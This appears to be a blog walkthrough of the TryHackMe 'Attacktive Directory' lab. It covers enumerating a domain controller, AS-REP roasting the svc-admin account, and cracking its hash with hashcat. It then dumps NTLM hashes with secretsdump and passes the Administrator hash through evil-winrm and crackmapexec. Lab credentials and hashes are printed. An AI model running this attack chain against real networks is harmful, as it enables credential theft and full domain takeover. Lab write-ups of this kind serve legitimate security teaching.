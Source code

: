 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## Enumeration
Starting off with an nmap scan on the target (I have already exported the IP address of the target to the variable $target)

```
nmap -p- -sV -sC $target --open
```

So we can see the Active Directory domain: spookysec.local

We can see that this is an AD with typical AD related services running such as Kerberos, SMB, RPC and LDAP. I will enumerate these services one-by-one to see if we can get a foothold.

### SMB
Nmap revealed SMB ports open on 149, 445. So let’s enumerate SMB further. We can use:

- enum4linux
- Nmap scripts specifically for SMB enumeration.
- crackmapexec

I am running these scans concurrently.

```
enum4linux -smb $target

nmap -p139,445 --script=smb-enum-shares -sC $target

crackmapexec smb $target
```

The SMB nmap script does not reveal anything that we have not already seen from the original nmap scan.

Why is port 445 open? Basic domain functions usually require Port 445 to be open. These functions include remote file access, software deployment, and system management.

#### crackmapexec
crackmapexec reveals some results about the target. This tool can also be used for brute-forcing (if we find some credentials)

Key info:

- Hostname: ATTACKTIVEDIREC
- Domain: spookysec.local
- OS: Windows 10 / Server 2019 Build 17763

#### enum4linux
The enum4linux scan gave us a Domain SID and the Netbios Domain Name of the machine:

SID: Security Identifiers. These identifiers ensure domains are distinguishable.

## Kerberos
This TryHackMe box comes with a user and password list for brute-forcing. Kerbrute is a tool used to enumerate valid user names (find out what usernames are legitimate and exist on the target system).

This is the best guide that I’ve found for installing and executing Kerbrute: https://www.hackingarticles.in/a-detailed-guide-on-kerbrute/

```
sudo ./kerbrute_linux_amd64 userenum — dc $target -d spookysec.local userlist.txt
```

The full output below shows a list of legitimate Kerberos user accounts that exist on this domain. That’s great for enumeration because we have more information to help us get a foothold.

Usernames such as svc-admin, administrator, backup are notable findings with potentially elevated privileges.

## ASREPRoasting
ASReproasting occurs when a user account has the privilege “Does not require Pre-Authentication” set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

AS-REP = Authentication Server Reply

Roasting = Slang for extracting a Kerberos-encrypted value (like a hash) that can be cracked offline

We can use impacket to attempt ASREPRoasting to retrieve Kerberos tickets. Starting off with the GetNPUsers.py script.

But what does it mean? It’s important to understand why we are using this script.

GetNPUsers.py = Get No Preauthentication Users

```
python3 examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile /home/kali/Downloads/userlist.txt -dc-ip 10.10.28.119
```

We can see below that I’ve found some information. I now know, that James can’t be AS-REP roasted.

User james doesn’t have UF_DONT_REQUIRE_PREAUTH set

A few minutes later I’ve found something.

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:[long hash]
```

We can query a kerberos ticket from the user: svc-admin without a password. In other words, we can AS-REP roast this user.

We can also do a lookup for this hash type on Hashcat’s Wikipedia page.

- Hash type: Kerberos 5, etype 23, AS-REP
- Hash-mode: 18200

We can use hashcat to crack the hash. Hashes cannot be reversed unlike encryption/decryption. Hashes are rather compared against a database of known hashes and this how they are ‘cracked’.

Hashcat scan:

```
hashcat -m 18200 hash.txt wordlist.txt
```

Here’s the results of the scan, where the hash has been cracked successfully: `management2005`

**Username:** svc-admin  
**Password:** management2005

---

## SMBCLIENT
Administrative shares like C$, ADMIN$, and IPC$ are always visible to authenticated users on Windows systems by design. However, visibility doesn't necessarily mean access is possible.

We can use these credentials to dig for further information. For example, we know that the target has SMB services running on Port 139 and 445. There is a high possibility of SMB shares being shared publicly.

### Enumerate SMB shares:

```
smbclient -L \\$target -U 'svc-admin'
# or without prompt:
smbclient -L \\$target -U svc-admin%management2005
```

### Connect to a share:

```
smbclient \\$target\backup -U svc-admin%management2005
```

GUI Method (Kali):
- Open Files
- Type: `smb://$target/backup`
- Enter username: `svc-admin`, password: `management2005`

Use `dir`, `ls`, `get` to interact.

### Example:
`backup_credentials.txt` file contains a base64 encoded string:

```bash
base64 -d backup_credentials.txt
```

---

## Pass the Hash

Use impacket’s `secretsdump.py` with the backup account:

```bash
python3 examples/secretsdump.py spookysec.local/backup:backup2517860@$target
```

This reveals NTLM hashes including Administrator:

**Administrator hash:**  
`0e0363213e37b94221497260b0bcb4fc`

---

## Evil WinRM (PTH)

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.157.141 -u Administrator
```

Use `cd`, `dir`, `type` to navigate and capture the flag.

---

## Netexec (alt to secretsdump)

```bash
netexec smb 10.10.157.141 -u backup -p backup2517860 --ntds
```

## Crackmapexec for Remote Commands

```bash
crackmapexec smb 10.10.157.141 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -x "whoami"
crackmapexec smb 10.10.157.141 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -X "whoami"
```

---

Thanks for reading. If you have questions, let me know. If you want to share something or get in touch, comment below.